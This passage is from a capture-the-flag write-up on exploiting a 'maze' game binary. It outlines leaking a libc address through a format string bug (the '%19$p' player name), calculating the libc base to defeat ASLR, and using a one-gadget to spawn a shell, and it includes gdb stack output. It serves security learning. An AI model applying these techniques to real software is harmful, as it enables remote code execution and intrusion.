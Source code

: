  1. Leak `libc` base address to bypass ASLR.
    - Leak an address of a `libc` function using the string format vulnerability in the `whoami` command.
    - Identify the `libc` version and calculate the function offset.
    - Calculate `libc` base address.
 2. Find a suitable one-gadget RCE in the `libc`.
 3. Solve the maze and submit a poisonous key to overwrite the offset of the `error` function with the RCE gadget address.
 4. End the game and cause an error to jump to the new offset to spawn a shell.

##### Leak libc base address

I ran the binary locally in `gdb` and put a breakpoint right before the vulnerable `printf` call to see what can be found on the stack.

```
$ gdb ./maze
GNU gdb (Debian 8.2.1-2) 8.2.1
... (snip) ...
Reading symbols from ./maze...(no debugging symbols found)...done.
gdb-peda$ b *0x401E17
Breakpoint 1 at 0x401e17
gdb-peda$ r
Starting program: ./maze
... (snip) ...
Breakpoint 1, 0x0000000000401e17 in ?? ()
gdb-peda$ telescope 14
0000| 0x7fffffffe050 --> 0x6031a0 --> 0x7ffff7fa6760 --> 0xfbad2a84 
0008| 0x7fffffffe058 --> 0x7ffff7fa6760 --> 0xfbad2a84 
0016| 0x7fffffffe060 --> 0x7ffff7fa22a0 --> 0x0 
0024| 0x7fffffffe068 --> 0x7ffff7e59d2d (<__GI__IO_fflush+157>:	xor    edx,edx)
0032| 0x7fffffffe070 --> 0x0 
0040| 0x7fffffffe078 --> 0xe700000000 
0048| 0x7fffffffe080 --> 0x7fffffffe0b0 --> 0x401fc0 (push   r15)
0056| 0x7fffffffe088 --> 0x401fac (mov    DWORD PTR [rbp-0x14],0x0)
0064| 0x7fffffffe090 --> 0x401fc0 (push   r15)
0072| 0x7fffffffe098 --> 0x300400a60 
0080| 0x7fffffffe0a0 --> 0x401656 (push   rbp)
0088| 0x7fffffffe0a8 --> 0xa00000000000000 ('')
0096| 0x7fffffffe0b0 --> 0x401fc0 (push   r15)
0104| 0x7fffffffe0b8 --> 0x7ffff7e0e09b (<__libc_start_main+235>:	mov    edi,eax)
```

Luckily I quickly found what I was looking for. The address of the `__libc_start_main+235`, i.e. address of some instruction of the `__libc_start_main` function from the local `libc`.

Now I had to find the right format pattern to set as the player name to be able to read this value from the stack without a debugger. I wrote another Python script which controlled the game using [pwnlib.tubes](http://docs.pwntools.com/en/stable/tubes.html) and iteratively tried to set and print names of `%<num>$p` format until it found the right value of `num`, which was 19. I verified that setting the name to `%19$p` successfully leaked the address on sending `whoami` command. 

To calculate the address of the `__libc_start_main` function itself I simply subtracted 235 from the address found on the stack. That gave me `0x7ffff7e0dfb0`. I quickly [verified](https://libc.blukat.me/?q=__libc_start_main%3Afb0) that the function offset indeed matched my local `libc` version. Then I decompiled the `libc` binary to find out that the `__libc_start_main` function starts at offset `0x23fb0`. Now I had all the information needed to calculate the `libc` base address in the memory.
